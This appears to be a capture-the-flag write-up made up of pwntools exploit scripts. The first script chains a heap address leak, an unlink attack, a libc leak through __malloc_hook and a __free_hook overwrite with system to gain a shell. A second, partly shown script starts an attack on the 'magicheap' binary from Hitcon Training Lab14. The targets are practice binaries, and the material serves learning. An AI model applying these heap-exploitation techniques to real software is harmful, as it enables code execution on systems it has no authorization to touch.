 ```python

delete(0)
delete(1)
delete(0)
show(0)

heap = u64(p.recvline()[:-1].ljust(8,'\x00'))-0x30

success(hex(heap))

bss = 0x602060
edit(0,p64(heap+0x10)+'\n')

allocate(5, p64(0)+p64(0x31)+p64(heap)+p64(bss-0x10))	#chunk0

allocate(6, p64(bss-0x18)+p64(bss-0x10)+p64(0x20)+p64(0x90))# pre_chunk == 0x20, the_hunk == 0x90
allocate(7, p64(0)+p64(0x21)+p64(bss-0x18)+p64(bss-0x10))	# build chunk1

delete(1)	#unlink
show(6)

mallochook = u64(p.recvuntil('\x7f').ljust(8, '\x00'))- 0x68
#(0x00007f5a6e089b78 - 0x00007f5a6e089b10)
success(hex(mallochook))
libc.address = mallochook - libc.sym['__malloc_hook']


freehook = libc.sym["__free_hook"]
sys = libc.sym["system"]
edit(0,p64(0)*3 + p64(freehook))
edit(0,p64(sys)+'\n')
delete(4)

p.interactive()


```

## Hitcon Training Lab14

```python
from pwn import *
p = process("./magicheap")
context.log_level = "debug"
def create(size,content):
	p.sendlineafter("choice :","1")
	p.sendlineafter("Size of Heap : ",str(size))
	p.sendlineafter("Content of heap:",content)

def edit(id,size,content):
	p.sendlineafter("choice :","2")
	p.sendlineafter("Index",str(id))
	p.sendlineafter("Heap : ",str(size))
	p.sendafter("heap : ",content)

def delete(id):
	p.sendlineafter("choice :","3")
	p.sendlineafter("Index :",str(id))



def back():
	p.sendline("4869")
```